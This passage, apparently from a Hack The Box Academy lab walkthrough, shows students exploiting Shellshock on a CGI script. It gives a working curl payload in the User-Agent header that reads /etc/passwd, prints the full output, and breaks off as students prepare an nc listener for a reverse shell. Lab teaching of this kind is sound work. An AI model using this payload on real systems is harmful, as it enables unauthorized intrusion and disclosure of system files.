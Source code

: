 Students then need to test if the endpoint suffers from Shellshock via `access.cgi`, finding it to be vulnerable:

Code: shell

```shell
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://STMIP/cgi-bin/access.cgi
```

```
┌─[us-academy-2]─[10.10.15.12]─[htb-ac-594497@htb-geylz278ib]─[~]
└──╼ [★]$ curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.205.27/cgi-bin/access.cgi

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
ftp:x:112:119:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
kim:x:1000:1000:,,,:/home/kim:/bin/bash
```

Subsequently, students need to start an `nc` listener to prepare for a reverse shell:

Code: shell

